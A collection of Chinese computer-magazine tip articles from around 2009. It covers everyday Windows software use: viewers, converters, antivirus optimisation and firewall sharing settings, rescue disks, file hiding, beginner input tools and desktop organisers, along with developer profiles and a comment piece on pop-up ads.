先将“可牛看图”下载并安装到系统中，假如想看自己网络相册中的图片，还需要将相册账户添加到软件中，单击“我的相册→添加帐户”，选择相册类型，再输入账号及密码即可完成账号添加了。完成账号添加，日后要想浏览相册中的图片，只要在列表中选择并双击相册即可在右侧窗口中欣赏其中的图片了。
当然，利用这款工具主要并不是看自己的相册图片，更多情况下是用来看网络上其他图片，这时，只要直接在左侧列表中选择相应的类别即可，例如在“网络图片大全”列表中就可以欣赏到网上各种精美图片了。

小提示：
在平时欣赏美图时，假如喜欢上了某幅图片，在浏览模式下直接单击“上传”按钮即可将其收藏到自己的网络相册中，当然也可以通过“保存”按钮将图片保存到本地硬盘中。

### 看图纸不要 AutoCAD

最近装修，设计师今天发来一张设计图，正欲先睹为快，却没有AutoCAD打不开，难道还要装这个大家伙？不用！
安装“DwgSee Plus”（下载地址：http://www.onlinedown.net/soft/63203.htm）就好了，运行后直接打开Dwg文件即可。软件也提供了放大、缩小、旋转等多种查看方式，有了它，只是偶尔看看图纸还需要单独安装专业的AutoCAD吗？
（文/dream）

## 省点口舌帮菜鸟搞定软件很easy

远方菜鸟问你新装电脑，都要装什么，不用挨个说明了，直接给他一个账号，一切自己搞定，不过作为老师的你要麻烦几步了。

### 百句话不如一软件

首先你俩都要安装好迅雷软件助手（下载地址：http://dl.xunlei.com/soft.html），然后你输入用户名和密码登录迅雷账号，并在“首页”的“本机软件备份”中单击“立即备份”，软件会检测你目前电脑安装的软件，对方不需要的软件，直接在该项目上单击“删除”，最后单击“保存软件列表”，接着让对方运行迅雷软件助手，登录你的账号，点击“软件备份”链接，找到刚才备份的软件备份列表，依次单击“全部选择→安装选中软件”按钮，软件便会一个一个地自动下载并安装了。

### 陌生软件不再躲猫猫

常听老爷子抱怨：“你给我装的那个记牌器在哪？找不到了。”看来得想点办法了，让老爷子运行QQ游戏玩棋牌游戏时自动运行记牌器。
首先安装Bathrun（下载地址：http://work.newhua.com/cfan/200923/rjdb.rar），运行软件目录的“Batchrun.exe”（见图），单击“文件名”右侧的“浏览”，定位程序的主运行文件，例如，QQ游戏的EXE文件，然后单击“添加”按钮。同样的方法，把记牌器软件的程序添加进来，最后单击“保存”，得到一个“BRS”文件。把它放在桌面上，重命名为“棋牌游戏”，这样，老爷子打牌时直接双击它就OK了。
小提示：
如果双击“BRS”文件不能运行，单击“打开方式”下的“浏览”，定位至安装文件夹下的“Batchrun.exe”文件再单击“打开→确定”，以后就可以直接运行了。
（北京/路小强）

## 难舍视频情 从播放器到转换器的蜕变

熟悉播放软件的人可能已经注意到一个现象，一款名叫“快乐影音”的播放器正在逐渐淡出我们的视线。这样的情况在IT业界或许算不上新鲜事，你或许以为这个名字会逐渐被人遗忘，如果这样想那就错了，因为他们的开发者仍在坚守着那份对视频技术的热爱，继续做着它的兄弟产品——快乐影音转换器，这份不舍情，我们在软件的使用中细细体会，慢慢感动。

- 王源（右）、高高（左）
- 专业：计算机
- 毕业时间：2003年
- 软件作品：快乐影音、快乐影音转换器
- 软件小档案
  - 开发者：wanleve(王源)、高高
  - 开发语言：C语言
  - 软件性质：免费软件
  - 支持平台：Windows 2000/XP/2003/Vista
  - 下载地址：http://www.klplayer.com
- 一股热情 四年坚持 终生奋斗

如果要问大学生用电脑干得最多的事情是什么？他们肯定回答是看电影，因为这个应用不分男女，几个人凑在电脑旁就可以看上一个下午。可这看电影也不一定是好事，有人就得益于此，当年王源和高高就是因为常看电影，才逐渐琢磨起播放器来，还成立了一个3人的小团队。后来，他们就加入了超级兔子的团队，2005年，快乐影音的第一个版本也是以超级兔子的名义发布的。

2008年底，他们正式开始视频转换软件的研发，要做视频转换，就要让软件支持众多的视频编码，他们俩认为，一个人的技术再强也无法完成全世界的众多视频编码，最后决定加入开源软件的行列。利用国外的开源代码，他们只花了一个月的时间就做出了软件，并且命名为快乐影音转换器。他们在开发软件过程中，并不是照搬国外的代码，而是通过具体的实践去修改和补充代码，完善软件。当时，他们没有什么经费去购买实验设备，就自己掏空腰包，买了iPhone 3G、PSP3000、M8等流行的数码设备进行实际测试。不知道的人还常常以为他们是烧钱的潮人，其实这些都是开发软件的测试工具。饮水思源，为了更好地促进视频转换技术的发展，他们也将自己的核心代码公布出来，由他俩修改编译的MPLAYER和FFMPEG核心组件已经被国内老牌转换器、格式工厂采用了。

## 提取原汁原味的音频

平时娱乐，还是音频资料最方便，如何提取呢？工具不少，不过音质可没有保证。用超级兔子来提取就可以保证了。
在主界面单击“音频转换”，然后在上面选择格式的最后一项，单击“无损的FLAC”图标进入下一项设置（见图1）。单击下面的“+”按钮，找到要提取的视频文件，在下面“选择输出文件夹”中指定文件保存路径，单击“高级选项”，在“音频质量”中的下列框中选择需要的级别（默认是6），数字越大，音频质量越差，文件越小，最后单击“开始转换”就可以了。

## 藏在右键里的秘密

当你进行转换时，右键单击该任务目录，就可以看到文件选项、截取片段、裁切画面等功能菜单了。“文件选项”功能是最全面的编辑窗口（见图2），其中“截取片段”和“裁切画面”提供了“可视化编辑”选项，选择“裁切画面”的可视化编辑后，可以直接用鼠标拖动画面边框来进行裁切。当然，这里是不能放大画面的。“均衡器”可以用来调整画面的亮度和对比度，在这里没有提供可视化编辑，需要右键单击任务选择“均衡器”来调整。

★每次启动快乐影音转换器，单击右上角蓝色的“最后一次使用的设置”可以直接按照上次的设置进行。
★转换多个文件时，勾选“自动关机”，转换完成后软件会让电脑自动关机。

（本刊记者/白斌）

## “不拖后腿” 杀毒软件帮你优化系统

谁说杀毒软件只能杀毒？殊不知它们随身携带了不少秘密武器，其中不乏系统优化的利器，不信？你看……

## 碎片整理，又快又好

“什么破机子，打开一个文件都这么慢！”没错，这都是磁盘碎片惹的祸。虽然Windows自带了磁盘碎片整理工具，但其整理速度太慢而且效果也不佳。如果你安装了“诺顿2010”，可以试试它的碎片整理功能，可谓又快又好。
在“诺顿2010”的主窗口中点击左下角的“性能监控图”链接进入其监控窗口，然后单击“系统智能分析”下的“优化”，此时诺顿将在后台分析并整理所有驱动器上的文件碎片。整理完成后，将鼠标移动到如图1所示的区域会看到相关的说明，最后，经测试打开文件的速度明显快了。

## 明察秋毫，启动加速

除了硬件因素，影响系统启动速度的主要因素就是自启动项了。通常系统会有多个自启动项，到底是谁拖累了启动速度呢？“微点”的“进程启动日志”功能可帮我们揪出这个“罪魁祸首”。
打开微点主界面，在左侧窗格中依次展开“我的电脑→系统日志”，单击“进程启动日志”项可在右面的窗格中看到系统启动时加载的所有启动项。单击“时间”以降序排列，时间越小说明启动越耗时（见图2）。UNWISE.EXE和WM.exe耗费系统启动时间最多。我们定位到“系统分析→系统自启动信息”，在右侧找到该项，单击右键选择“仅删除自启动项”（恶意进程可选择“删除文件与自启动项”）即可。

基于系统服务的启动项可在“服务”管理器（services.msc）中禁用，如果启动项删除错了，可在微点窗口的“安全防护与策略→子启动项回收站”中恢复。

## 去留无迹，消除痕迹

系统使用久了，就会在磁盘上留存大量的日志文件、缓存、Cookies等信息。这些数据信息不仅会带来安全隐患，还会影响系统性能，如果要手工清理这些信息，不仅麻烦而且颇有难度，利用“卡巴斯基”的“隐私清理”工具可轻松搞定。
在卡巴斯基主窗口中单击“工具中心→获得痕迹清理”工具就会弹出隐私清理向导。依次选择“用户活动痕迹诊断→下一步”就会自动扫描搜索相关的用户隐私信息。扫描完毕后列出搜索结果，从中勾选想要删除的项，单击“下一步”即可完成清理。在清理完成后，如果勾选“每次退出卡巴斯基全功能软件时清除活动痕迹”可实现自动清理（见图3）。

瑞星卡卡上网助手也是系统优化利器，其清理垃圾文件、管理启动项目等功能非常实用。此外，NOD32的日志文件删除功能可自动删除日志文件以节省磁盘空间提升系统性能。

（甘肃/老五）

## 轻巧设置局域网 共享不犯难

## 开启交互模式

默认设置下，防火墙的工作模式为“自动模式”（主要是针对初级用户），但该模式下NOD32进行的相关处理不会通知用户，假如是拦截与局域网计算机之间的通信，用户并不知道，局域网不能访问的问题便成了难题。这时，当设置成交互模式时，当在访问局域网时出现拦截操作时，只要手工取消拦截，允许通信，问题便不会发生了。开启交互模式很简单：打开NOD32的高级设置模式，选择“个人防火墙”，在右侧窗口中的“过滤模式”列表中选择即可。

## 允许共享

如果在安装NOD32时，向导询问计算机在网络中的保护模式设置时误设置成“严格保护”，其他计算机便无法查看你的计算机中的共享文件、打印机，在玩局域网游戏时当然也受影响。只要将此模式设置成“允许共享”即可：在高级设置窗口中选择“个人防火墙→规则和区域”，单击“信任区域”中的“设置”按钮，在打开的窗口中选择即可。

## 开放端口

在默认设置下，NOD32阻止了三个端口，很多局域网游戏正常运行时需要这三个端口才行，因此要开放它们：在设置窗口中选择“规则和区域→规则区域编辑器→设置”按钮，新建一个规则并设置名称为“TCP”，选择“本地→添加端口范围”，将137—139端口添加进去。保存设置后回到“区域和规则设置”界面，取消选择“阻止传入的NETBIOS请求”和“阻止传出的NETBIOS请求”这两项。最后再选择“区域”选项卡，将局域网中的计算机IP地址或是整个允许访问的IP地址范围添加到可信任列表中。

博客地址：http://blog.cfan.com.cn/?1127711

## 新菜要会吃 瑞星2010开锅四步

瑞星全功能安全软件2010版已在10月20日正式发布，之前我们分期交流了不少测试版的技巧，现在打开正式版，你是否还有些不知所措呢？这就好比一道新菜，端上菜来，从哪下手呢？这是有讲究滴！

-   第1步：安装完成后默认要运行“设置向导”，设置向导第一步是“云安全”设置（以前我们讲过了，不再赘述），输入邮箱，直接“下一步”。
-   第2步：接下来是对软件的监控，主动防御，防挂马等日常重要功能的设置（见图），对于普通读者，可以完全按照默认状态，直接一路“下一步”即可完成。但如果对于电脑安全要求较高的用户，手动查杀、文件监控以及处理未知病毒的“木马行为防御”建议设置为“高”，空闲时段查杀和邮件监控可以设置为“低”，这样可以减小瑞星资源占用，如果电脑配置好，也可以保留为“中”。
-   第3步：接下来，就是对于软件的一些其他设置，这里建议大家全部勾选所有项目，可以既保障电脑安全，又进行自动升级。现在瑞星每天升级12次，如果取消“静默升级”，那每次升级都将弹出提示。
-   第4步：最后是“系统安全环境检查”，可以提高安装杀毒软件后，电脑的运行速度。下方就是瑞星2010版的独家功能“应用程序加固”，默认保护的是浏览器、Office软件，如果还有其他软件需要保护可以在设置中自己添加或删除。

小提示：单击主界面的“更改外观”，然后选择“怀旧情调、海阔天空、香草熏衣”中的一种，单击“确定”界面风格就换了。如果你的电脑是触摸屏的，装上Windows7后，可以直接用手势来控制瑞星的扫描和界面的关闭等，十分炫丽。

| 类别 | 引导或启动项 | 发现病毒及恶意行为时 |
|------|--------------|----------------------|
| 手动查杀 | 中 | 询问我 |
| 空闲时段查杀 | 中 | 询问我 |
| 嵌入式杀毒 | 中 | 询问我 |
| 文件监控 | 中 | 询问我 |
| 邮件监控 | 中 | 询问我 |
| 木马行为防御 | 中 | 询问我 |
| 木马入侵拦截 | 高 | 询问我 |

## 别重装！瑞星还能拯救你的系统——Linux 引导杀毒盘制作工具制作方法

电脑出现问题，很多人就想着重装一次系统，轻松搞定。但如果电脑感染恶性病毒，在D、E等其他盘下生成了病毒文件，通过这种方式仍然无法彻底解决。如此的紧急时刻，如果你有一张瑞星全功能安全软件的Linux引导盘就搞定了。这个宝贝当然要我们提前制作了。

-   第一步：打开瑞星全功能安全软件，依次单击“工具→病毒库U盘备份工具→运行”，下载SO文件包（下载地址：http://download.rising.com.cn/for_down/ravlinux/linux.rar），将其解压到当前文件夹，可以看到所有文件均放置在SO文件夹下。
-   第二步：先关闭瑞星的自我保护功能：在瑞星软件主界面，选择“防御→智能主动防御→自我保护”，单击“关闭”按钮，如果您没有设置瑞星密码则直接输入验证码即可，如果设置了瑞星密码，需要输入正确的密码后才可以关闭自我保护功能。
-   第三步：将SO文件夹复制到瑞星安装目录（瑞星全功能安全软件默认目录是：C:\Program Files\Rising\Ris，瑞星杀毒软件默认目录为C:\Program Files\Rising\Rav）下面。拷贝完毕后，为了您的电脑安全，再次启动瑞星自我保护功能。
-   第四步：启动瑞星主程序，依次单击“瑞星工具→病毒库U盘备份工具”，选择U盘后，单击“下一步”进行制作就可以了，完成后将当前的瑞星病毒库文件备份到U盘上，以备将来使用。

小提示：简单的使用方法：将电脑设置为光盘引导启动，通过瑞星原版启动盘启动，同时将制作好的瑞星病毒库U盘插入计算机的USB接口中，等待计算机启动完成。启动完成后，会进入Linux引导杀毒程序界面，此时瑞星杀毒程序界面中的病毒库版本已经是瑞星病毒库U盘中的版本了，就可以执行杀毒操作了。

## 狡兔三窟 学会隐藏你的秘密文件

开学了，大一新生赵伟将笔记本带到寝室，同学们经常来“蹭玩”，赵伟也乐意与同学们一起在网上遨游。不过他也有犯愁的时候，电脑上的照片、日记、资料等本不想与人分享的东西，如何保证其有一定的私密性，只有自己能打开呢？安装一个超级兔子吧！其中的“安全助手”提供了多种方法、途径解决这个问题。

## 方法一：隐藏磁盘

运行超级兔子，依次打开“工具→文件安全助手→隐藏磁盘”选项，将需要隐藏的磁盘打钩，点击“下一步”，磁盘就被隐藏起来了。如果想取消隐藏，则将原有勾选取消，再点击“下一步”重启电脑后就可以了。不过隐藏磁盘后，磁盘里的程序、内容都是不能使用和访问的，如果想继续使用隐藏后磁盘里的程序及文件，可以在“允许使用隐藏后的程序及文件”前打钩。另外，隐藏磁盘对系统所在盘（一般为C盘）无效。

## 方法二：伪装文件夹

伪装文件夹功能可以将文件夹伪装成系统的控制面板，达到迷惑访问者的目的。点击“装入文件夹”，来添加要保护的文件夹，点击“下一步”，在访问这个文件夹时，你会发现打开的是系统的控制面板。想要取消伪装，则点击“取出文件夹”及“下一步”即可。

## 方法三：加（解）密文件

加密文件功能将使用密码对文件内容进行重新编码并保存。点击“加（解）密文件→加密文件→下一步→加入文件”，系统会提示你输入一个密码，再选择加密后文件的存放位置，重新编码后的加密文件就保存成功了。想要解密的话，点击“解密文件”，输入正确的密码，就可以将文件恢复到原样（一定要保存好密码，忘记密码，不能还原的）。

小提示：如果你只是不想让别人复制或打开你的文件，那么可以锁定文件：点击“锁定文件→加入文件”，选择需要锁定的文件，点击“下一步”，再访问相关程序或文件，系统会提示你无法访问，同时相关文件还将无法被复制、移动、删除。最后，打开安全助手，在“密码设置”里为超级兔子安全助手设置一个启动密码，这样一来下次运行安全助手时就需要先输入密码才可以使用。怎么样，超级兔子安全助手利用一些简单的隐藏、加密方法，就可以在很大程度上帮助用户实现隐私的保护，是不是很实用？赶紧去装一个吧！

## 男怕选错行 女怕嫁错郎 初学者选对软件了吗

“男怕选错行 女怕嫁错郎”这句话用一个世俗的说法表达了选择的重要性。学习电脑操作，不少人说法不一，有人觉得很好学，电脑很好用，有人还在艰难的“挠头”，其实，关键看你是否找到了适合你的软件。哪怕你不会拼音，不会五笔，找不着按键，选到好软件帮你，一切都很轻松！

### 难点 1：找不着按键

#### 方法: 键盘不好找就用虚拟键盘

初学电脑还总是面对键盘无从下手，要找哪个键，半天找不着。而换用鼠标在屏幕上选，反而要好不少，那么一款好用的虚拟键盘就可以帮你了。

-   第1步: 下载Hot Virtual Keyboard，安装语言可选择English，安装完成后会默认启动设置向导（见图1），首先在下列列表中选择Simplified Chinese（简体中文），单击“下一个”，选择你喜欢的键盘类型即可。笔者推荐StandardBig类型，按钮大又不至于全屏看见。在“风格”下拉菜单中还可选择键盘的颜色风格。
-   第2步: 单击“下一个”，勾选“单词自动完成”，并在屏幕键盘的浮动窗口中勾选“可见”方便调用它。再依次单击“下一个→完成”就可以了。
-   第3步: 现在启动软件，单击左上角的Lg按钮切换好输入法（见图2），用鼠标点击按键进行输入就好了，Ctrl， Shift等组合键也可以使用。

小提示: Hot Virtual Keyboard有两个版本，有免费版和专业版，大家可自行下载。专业版: http://hot-virtual-keyboard.com/， 免费版: http://www.freevirtualkeyboard.com/virtualkeyboard.html。

### 难点 2：不会拼音或五笔

#### 方法: 换用数字笔画输入，会写字就会输入

熟悉键盘只要熟练就好，可要让键盘听话，想打什么就打什么，那就必须要过输入法这一关。很多中老年人说自己不会拼音，也不会五笔，那怎么学啊？我们只用数字键，按笔画顺序就可以输入。

安装并运行“数字笔画输入法2版”（下载地址: http://work.newhua.com/cfan/200922/szbh.zip），你会看到如图3所示的界面，汉字分成由横（一）（包括提），竖（丨），撇（丿），点（丶）（包括捺），折（乙）（所有带转折弯的笔画），分别对应键盘数字键的1， 2， 3， 4， 5（笔记本电脑则使用ASDFG作为这五个基本笔画）。

小提示: 如果你想练就标准的输入，那么可以使用金山打字通来进行练习，另外，你想手写的话，可以使用逍遥笔输入，可参考2009年21期《敲打的享受一文》。

### 难点 3：输入法学不会

#### 方法: 换用语音控制

输入法正在慢慢学，平时聊天，娱乐却简单得很，总是找不到该用哪个设置，总要翻书对照，这里教你一个软件，对照书，设置好语音命令，以后你就可以直接用嘴来控制电脑了，打开记事本，打开网页，关闭窗口，录入文字等样样都行。你如果设置麻烦，那就请个高手按照下面的方法帮你设置一下吧，一劳永逸哦！

首先安装语音识别引擎（下载地址: http://work.newhua.com/cfan/200922/yyyq.rar， 先安装英文识别引擎再安装中文识别补丁），然后安装“电脑语音控制专家”（下载地址: http://work.newhua.com/cfan/200922/yykzzj.rar）。要让语音控制的准确率提高，首先要进行语音训练，依次单击“基本设置→声音训练”，按照提示步骤阅读语音训练文本，这一步不可省去，所谓磨刀不误砍柴功。

#### 实例1: 打开常用的程序或文档

-   第1步: 电脑语音控制专家软件已为你配置了许多常用的语音命令，依次单击“基本设置→编辑命令”，可以看到“语音文字”和对应的“执行命令”（见图4）。我们来看如何打开记事本: 在软件主界面上选中“中文”、“语音控制”，并依次单击“语音控制→开始控制”，这时对着话筒口述“记事本”，则可打开记事本编辑器。
-   第2步: 如何加入自己的语音命令呢？比如我们要用语音来打开常用的某个Word文档，在“语音文字”中输入一个名字，选中“打开文件”，单击“浏览”按钮，定位到那个Word文档后单击“添加”，这样启动语音控制后，说出所起的名字就可打开这个Word文档。同样的方法，我们可以设置用语音来打开指定的网页、按下特定的按键等，它们分别在“浏览网页”、“模拟按键”中设定。
-   第3步: 打开记事本，选择“语音打字”，使光标定位于记事本中呈输入文字状态时，就可以把你说出的句子录入到记事本当了。如果你安装的是“QQ2008贺岁”版，勾选“QQ聊天”，打开聊天窗口后，动动嘴就可输入聊天文字。

#### 实例2: 动动嘴就能写日记

虽然刚学电脑，但也会听说现在大家都用电脑写日记，写博客，这还没练好输入法怎么办呢？继续说吧！咱可以录制语音日记。

安装“语音便笺”（下载地址: http://work.newhua.com/cfan/200922/yyj.rar）这款软件，界面只有四个按钮: 开始录音、暂停录音、查看记录、主菜单，该界面随时吸附在当前窗口的标题栏上（见图5）。需要记录语音便笺时，单击“开始录音”，对着话筒讲述记录事项，结束后单击“停止录音”即可，也可单击“暂停录音”停顿，然后单击“继续录音”继续录制。查看便笺内容时，单击“查看记录”，选中便笺列表中便笺标题，再单击“播放”按钮就可以听到便笺内容。

小提示: 如果想防止他人偷听便笺内容，可以依次单击“主菜单→软件设置→设置密码”，勾选“是否启用密码保护”，输入两次密码后单击“确认密码”，这样以后查看便笺内容时，必须输入正确密码方可进入。

### 难点 4：找不着选项

#### 方法: 找个软件，将功能菜单集合在一起

刚学电脑的年轻人或许对输入和控制都不会有障碍，但常出现的问题就是，不知道系统的某个调整在哪能找到设置选项。Windows做了整理，但初学者还不熟悉它的思路，所以不如把功能都以列表的形式给出，虽然不美观，在前期却很有用。

运行XPSysPad（下载地址: http://work.newhua.com/cfan/200922/xpsymb.rar），界面很简单（见图6），将系统的设置项都集合在一起了，例如你想找本机的IP，直接依次单击“网络→获取本机IP地址”，想设置下鼠标灵敏度，不用乱找，直接单击“控制面板→鼠标”进行设置就好了。

## 喜欢的、收藏的，音乐统统打包

歌曲本是按专辑发布的，可自己电脑里却是散乱得很，很想给音乐归归类，一个专辑一个文件，连歌词也打包在内的音乐打包方法你会吗？

-   第1步: 首先来准备要制作专辑的歌曲文件，如果是打包自己喜欢的，那我就不必多说了，文件你肯定有。如果你想将某位歌手的专辑收录下来，那么就要先收集好文件了。把你知道的一首歌的歌名在百度音乐或谷歌音乐里搜索，在结果里会提示你专辑名，单击专辑名，该专辑下的曲目就都看到了，再挨个下载就好了。
-   第2步: 现在开始专辑的制作，运行专辑制作工具（下载地址: http://work.newhua.com/cfan/200922/zjzz.rar），在“专辑名称”中输入专辑名，例如“本月K歌练习”或“完美的一天”，再分别单击“音乐”和“歌词”按钮，将音乐文件和对应的歌词分别添加进来（一定要选择匹配好的歌词哦，软件只能支持10首歌曲），单击“开始制作”，一会儿后软件就自动打包生成了一个可执行文件。

在专辑制作工具的目录找到那个可执行文件并运行，漂亮的播放器界面就出现了，点击数字，就可以点播其中的某一首歌曲了。歌词也是同步显示哦！

## 来也绿色 去也绿色 剿灭后台进程有新招

不少软件都带有令人发指的‘后门’进程或服务，偷偷地损耗资源。虽然自称是自动更新等用途，但实在没有留着的必要。以前都是寻找软件的绿色版来替代，现在，对付软件的后台动作，我有了新招。不仅让软件绿色运行，退出也是‘绿色’的。

### 另辟蹊径 “干净”退出

这个新招是什么呢？那就是把软件放在‘云端软件平台’里。我们先通过UUSee的例子来看一下效果。在系统中运行UUSee，然后将其关闭，再调出任务管理器，在进程列表中会看到UUSeeMediaCenter.exe这个进程还在运行。现在来换做‘云端软件平台’中使用UUSee，在‘我的软件’列表中右击UUSee，选择‘隐藏→强制关闭并隐藏’（见图1），再打开任务管理器，进程列表中所有与UUSee相关的进程便消失殆尽。

### 暗度陈仓 无法无天

在云端软件平台里提供了不少软件，但不一定包含你需要的所有软件。但我们可以自己添加，方法也很简单哦！我们就拿上面的例子，来说下如何添加一款软件到云端软件平台。启动云端软件平台，单击‘安装软件到云端’按钮启动虚拟化模式，现在只要按照正常的方法将软件安装到系统盘，完成安装后再单击云端平台的虚拟化窗口中的‘完成’按钮即可（见图2）。完成安装后，云端软件平台会自动将其放到虚拟缓存中，表面上是安装在系统盘，而其实它已经被放到了非系统盘中（这个位置可以在‘云端软件平台’中单击‘主菜单→设置’进行设置），也就是说，我们顺利将软件添加到了云端软件平台，现在就可以享受剿灭后台进程的畅快了！

（文/赵开代）

## 哥“弹”的不是寂寞 是银子

日前，暴风影音宣布旗下成立子公司暴风传媒，而且该新闻指出暴风传媒的产品将以弹窗形式在暴风影音客户端出现。看到此，有种‘真惊了’的感觉。原因有二：

一来，让我们看到了软件平台化的战略，软件一旦做大，有了用户，也就相当于有了平台，然后在平台上做什么就都可以了。360安全卫士可以在平台上推软件、推杀毒，暴风影音在平台上做传媒又有什么不可呢？又有谁会再说软件盈利模式单一呢？

二来，‘弹窗’在最近出现得频繁起来，之前千千静听开始出现‘弹窗’广告惹来无数抱怨，甚至有人号召大家抵制千千静听。其实，有弹窗的何止它呢？酷我音乐盒、迅雷等软件都有。原因，聪明的人都知道，有钱赚呗！据业内人士分析，弹窗式广告和文字嵌入式广告的收益价格本身相差不大，但因为广告都是在被用户点击后才会产生收益，所以，弹窗式广告的成功率就比文字的高出不少，收益也自然翻倍了。其实，弹窗广告就好比鸦片，软件厂商都知道它有害，影响用户体验。可它的收益也是诱人的。举例来说，某弹窗式广告每产生1000次点击就可以收入约十元钱。假如某软件有100万用户，每天约有10%的人点击一次，那么，每天单单这个弹窗就可以有一千元的收入，再乘以天数，那这对于用户量大的软件来说，白花花的银子就可以堆成山了！这份诱惑天天在心里翻腾，有谁能忍受住呢？网上曾流传这么一句话‘人所谓正派，关键看受的诱惑够不够大’。今天，我们也可以改一下，如果软件没有弹窗式广告归为‘正派’的话，那软件也无所谓‘正派’，关键看受的诱惑够不够大，受不受得住这份诱惑。

## 最忠实的用户 永不满足的开发者

要说国内用户最多的浏览器，不用问，大家都知道是IE。可接下来是谁呢？是火狐？不是。艾瑞最新发布的数据表明，傲游在中国的市场占有率已经达到22%，超过了火狐。傲游浏览器，可谓是一朵娇艳的花朵，那你知道当初它是如何从一个花蕾到含苞待放，再到今天的绽放的吗？

陈明杰
傲游天下科技有限公司CEO
专业：自动控制
毕业时间：1998年
软件作品：MyIE2、傲游浏览器
软件小档案：傲游浏览器
创始人：陈明杰
软件性质：免费软件
开发语言：VC
下载地址：http://www.maxthon.cn/

### 角色转变 梦的起步

开发软件的起点往往是有个新奇的想法，然后从无到有的开创。但傲游的开发故事给我们展示了一位不一样的开发者——陈明杰。从最初开发到现在的7年间，陈明杰完成了两次角色转变，每一次都将他和他的软件带到新的高度。

2000年，陈明杰来到新加坡工作，那时他酷爱上网，对浏览器也就有了不少研究。他发现圈子里有很多人和他一样，都喜欢一款比IE功能更多、使用更便捷的浏览器MyIE。可到了2002年，MyIE的作者忽然停止了开发，陈明杰就感觉这样很可惜，就考虑是否由自己继续完善下去。恰好MyIE是一款开源软件，自己又能看懂代码，随即便开始了一些优化调整，并更新了一两个版本。出乎意料到大家反响非常不错，于是他决定做下去，并改名为MyIE2。一款新的浏览器产品从此诞生，他也从一位忠实的软件用户蜕变为软件开发者。

### 一个特色 七年积累

傲游浏览器能获得这么多人的喜爱，最重要的原因就是软件拥有大家喜欢的多种功能。换句话说，软件符合用户的使用习惯。这样的特色，其实在陈明杰开发软件之初就明确了。早在MyIE时代，他就认为，浏览器之争不会仅局限于页面显示上，而应该是浏览器提供的其他各项应用。因为页面显示最后都不成其为问题，以用户需求为导向，提供功能全面的浏览器一直指引着傲游的发展。当谈及用户习惯时，更是他的专长。2000年，陈明杰在新加坡工作伊始，从事的就是文档安全方面的工作，他告诉记者：“我一直喜欢研究用户对软件的使用习惯。”有了这7年多的经验积累，傲游的用户体验一直很好。

他的付出也得到了回报。起初，陈明杰都是在空余时间开发免费的MyIE2，软件采用自愿捐助的模式。谈及这个过程，他告诉记者：“有一次，收到一封邮件，对方是一位60多岁的残疾人，他说这个浏览器很好，但是他没有工作，没有钱给我，就发一封邮件来支持我。一直挺感动的。”讲述这些话时，陈明杰眼里闪烁着感性的光芒，完全不像是一位公司老板，更像是一位普通的个人软件作者。

### 心有多大 梦有多远

现在个人软件并不少，不过很多软件，经历过七八年后依然是个小软件。在谈到如何从个人软件研发者转变为规模发展的时候，陈明杰谈到：“首先，看重市场发展，明确定位，做好这两件事之后最重要的就是专注，专注于自己的科研领域。如果自己就只把软件定位为一个小工具，那就不可能做大。”陈明杰是一个永远不会对自己满意的人，也正是这种性格激励他不断寻找新的高度。

2004年，网络有了较大的发展，大家需要打开的页面也多起来，原来按照单页面显示设计的MyIE2就有了不少需要优化的问题。这时，他毅然决定抛弃所有代码，重新编写软件代码。同时，他的思想也没被限制在软件本身。偶然的机会，一位丹麦的投资人因为喜欢软件而联系到了他，他们时常探讨软件的发展，将夹层运营。厚积薄发，这些准备让他在2005年的一次投资峰会上顺利争取到了投资。2005年，在北京创办了傲游天下科技有限公司。日前，傲游又有了自己的浏览器研发中心。不久，一款拥有独立内核的双核傲游浏览器就会和大家见面，同时，陈明杰再一次刷新了自己的高度。

### 傲游小技巧

-   1. 单击“增强功能”下的“添加外部工具”，然后按“Win+D”组合键回到桌面，将浏览网页时会用到的软件的快捷方式或EXE文件拖动到窗口上方，就完成了自动添加，单击“确定”保存。按照同样的方法添加完常用工具，现在上面有点拥挤了，那就将鼠标移动到“增强功能”附件，将其拖拽到右侧，所有的快捷启动就都在右侧了，随手调用。
-   2. 浏览某个常用页面时，右键单击标签，选择“设置快捷键”，设置一个不会冲突的键值，以后在傲游里就可以直接按这个键来打开该页面了。
-   3. 需要搜索页面中的某段字，选中后随便拖动下，即可打开搜索该词的页面。
-   4. 单击右下角的书本按钮可以调出收集板，看到像收集的文字直接拖动到上面即可（见图）。而且这里的文字直接多标签，可以上传和下载，来随时提取内容。
-   5. 使用傲游观看在线视频时，依次单击“工具→网页嗅探器”，然后根据名字就可以找到视频地址，右键单击选择“使用傲游下载”即可下载正在播放的视频。

（本刊记者/白斌）

## 上下左右齐扩张 桌面不再不够用

偶然发现，我们总在抱怨电脑桌面太小，于是电脑显示器的尺寸就不断增大，从17英寸到21英寸，甚至有了30英寸以上的家伙，但我们还是嫌小，因为有太多的东西想往桌面放，再大的桌面也会常被塞满。看来要想点法子，让这桌面不再塞满，上下左右中各有‘机关’。

因为快快捷方式不支持多个启动，我们就来安装它的兄弟产品RocketDock (下载地址: http://work.newhua.com/cfan/200923/dock1.rar).

## 文件多 自动整理变整洁

对于大多数人来说，桌面乱是因为除了快捷方式外，还有很多乱七八糟的文件，现在我们想办法把这些文件自动移动到别的目录就好了。这只须借助“桌面整理助手” (下载地址: http://www.onlinedown.net/soft/78544.htm)。

- 第一步: 首先要解决的是文件自动归类，也就是自动从桌面移动到其他位置。我们利用规则来搞定。运行软件，单击“新建”，选中“文件扩展名”，在“文件扩展名”中输入rar（假如还需要添加其他文件类型，只要用分号进行分隔即可)，单击“整理目标目录”后的“选择”按钮，指定文件移动到的目录是H:\下载 (见图1)，单击“确定”保存。

> 小提示：
> 在建立规则时，也可以勾选“按文件名包含”，可以通过指定包含某些关键词的文件移动到某个目录下。不过这就需要在桌面存文件时，命名要有规律。

- 第二步: 按同样的方法添加其他规则，将不同类型的文件移动到不同目录就可以了。以后桌面乱，运行软件，先取消普通规则里的“按文件修改时间”，然后依次单击“预览→整理”，桌面上的文件就会按照类型自动归类了。

## 火速链接:

桌面图标的分类还可以采用Fences整理软件，具体参考2009年第5期杂志《桌面整理 不用吩咐》。

## 图标多 换个方式隐藏掉

归根到底，桌面的东西一部分是软件快捷方式，一部分是文件。我们换种思路，既然桌面上碍事，就把它们放到一边去。你看桌面的四周是不是好去处啊？

### 1.软件藏在顶端

安装并运行“精灵快捷栏” (http://www.jling.org/)，你会发现屏幕顶端多了一个浮动的自动隐藏窗口，这就是我们的秘密工具了。桌面图标不是多吗？把那些软件的启动菜单都放到这里来。

- 第一步: 首先将工具条上无用的软件快捷方式拖动到桌面空白处删掉，然后将桌面上的软件快捷方式拖动到工具条上完成添加。
